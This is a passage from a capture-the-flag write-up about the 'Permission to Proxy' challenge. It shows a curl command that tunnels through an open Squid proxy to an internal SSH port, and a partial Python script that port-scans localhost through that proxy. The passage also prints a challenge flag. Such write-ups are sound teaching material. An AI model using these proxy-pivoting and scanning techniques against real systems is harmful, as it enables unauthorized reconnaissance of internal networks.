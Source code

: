 Grep the output for the flag:

**`flag{6b38aa917a754d8bf384dc73fde633ad}`**

# Permission to Proxy

Another of those challenges that took a solid team effor and plenty of theory testing. It seemed quite clear from a bit of research, that given the challenge and error page, the proxy was open to be utilised for queries. Some observations to note:

- Setting browser proxy to the challenge URL allows the hostname (from the returned page data) to be used - for instance, can connect to hostname:3128 or challenge.ctf.games can be changed to the hostname with the assigned port.
- Running vulnerable version of squid
  - https://vulert.com/vuln-db/debian-11-squid-159670
  - https://hackerone.com/reports/824802

Having failed to replicate the vulnerabilities, I took to researching other challenges that may have required a similar approach. Commonly, the proxy was used to access SSH onto a local host machine. Attempting this like so: 

```bash
curl -x http://challenge.ctf.games:30499 http://permission-to-proxy-8bd31fb26d8bcc71-59586fb8db-l4cbn:22 
SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.7
Protocol mismatch.
```

Trying to proxytunnel to a port and connect to localhost ssh presented more evidence this was the way to the flag, however, it only accepted ssh keys!

After banging heads against the wall for a while and wanting to turn all squid into calamari, we took to checking what other ports may be open (all 65535). The problem with this approach was even with some multithreading, the scan was slow - I gave up extending my session at around 20% and went to bed (or work I can't recall what hour this was solved!). Either way my teammate Kumomonomu had kept up the scanning, discovered that port 50000 was open and managed to get the flag.

I had to validate my script would have worked so I tested it again using ports closer to the known open one and sure enough, I got a match. _Note: HEAD requests were much quicker and also avoided port 50000 keepalive that would cause the script to hang_.

```python
import requests
from concurrent.futures import ThreadPoolExecutor, as_completed
from tqdm import tqdm 

# Configuration
base_url = "http://127.0.0.1:"
proxy = {"http": "http://challenge.ctf.games:30499"}
total_ports = 65535
open_ports = []

# Function to check a port
def check_port(port):
	try:
		url = f"{base_url}{port}"
		response = requests.head(url, proxies=proxy)
		if response.status_code == 200:
			return port
	except requests.RequestException:
		return None

# Using ThreadPoolExecutor for concurrent requests
with ThreadPoolExecutor(max_workers=10) as executor:
	futures = {executor.submit(check_port, port): port for port in range(1, total_ports + 1)}
	
	# Using tqdm to show progress
```